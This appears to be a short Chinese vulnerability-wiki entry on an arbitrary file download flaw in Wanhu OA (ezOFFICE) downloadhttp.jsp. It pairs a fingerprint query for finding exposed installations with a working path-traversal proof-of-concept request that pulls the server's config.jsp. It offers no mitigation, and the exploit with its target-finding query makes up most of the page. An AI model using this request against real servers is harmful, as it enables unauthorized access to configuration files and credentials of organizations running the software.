 # 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174643131.png)

验证POC

```javascript
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![img](/assets/PeiQi-Wiki/img/1646039844800-07a00418-a36e-466c-a6ad-da6d8a9621ea.png)